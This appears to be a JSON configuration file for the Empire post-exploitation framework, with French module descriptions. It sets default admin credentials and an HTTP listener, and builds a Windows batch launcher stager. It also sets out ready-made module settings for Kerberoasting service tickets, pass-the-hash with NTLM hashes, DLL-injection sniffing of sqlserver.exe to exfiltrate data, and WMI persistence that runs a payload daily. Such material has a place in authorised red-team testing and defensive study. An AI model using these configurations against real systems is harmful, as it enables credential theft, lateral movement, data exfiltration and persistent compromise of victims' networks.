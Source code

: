 {
  "api/admin/login": {
    "username": "empireadmin",
    "password": "password"
  },
  "listeners/http": {
    "Name": "http_listener_demo",
    "Port": 8080,
    "Host": "http://localhost:8080"
  },
  "stagers": {
    "Listener": "http_listener_demo",
    "StagerName": "windows/launcher_bat",
    "OutFile": "C:\\Path\\To\\launcher_demo.bat"
  },
  "kerberoast": {
    "ModuleName": "credentials/kerberoast",
    "Agent": "agent_name_here",
    "Options": {
      "SPN": "MSSQLSvc/domain.com:1433",
      "User": "optional_user_name"
    },
    "Description": "Ce module lance une attaque Kerberoast pour extraire les tickets TGS des comptes de service. Les tickets peuvent ensuite être crackés hors ligne pour récupérer des mots de passe. La spécification d'un SPN (Service Principal Name) cible peut affiner l'attaque vers des services spécifiques."
  },
  "pass-the-hash": {
    "ModuleName": "credentials/pth",
    "Agent": "agent_name_here",
    "Options": {
      "User": "username_here",
      "NTLM": "ntlm_hash_here",
      "Target": "target_machine_name"
    },
    "Description": "Utilise la technique Pass-the-Hash pour s'authentifier sur une machine cible sans mot de passe en texte clair, en utilisant un hash NTLM récupéré."
  },
  "data-exfiltration": {
    "ModuleName": "collection/netripper",
    "Agent": "agent_name_here",
    "Options": {
      "Application": "sqlserver.exe",
      "PathToSave": "/path/to/save/data"
    },
    "Description": "Injecte un sniffer DLL dans des processus spécifiques (par exemple, sqlserver.exe) pour intercepter et exfiltrer des données sensibles."
  },
  "persistence": {
    "ModuleName": "persistence/elevated/wmi",
    "Agent": "agent_name_here",
    "Options": {
      "Listener": "listener_name_here",
      "DailyTime": "HH:mm"
    },
    "Description": "Configure une persistance en utilisant les événements WMI pour exécuter un payload à un moment spécifié chaque jour."
  }
}
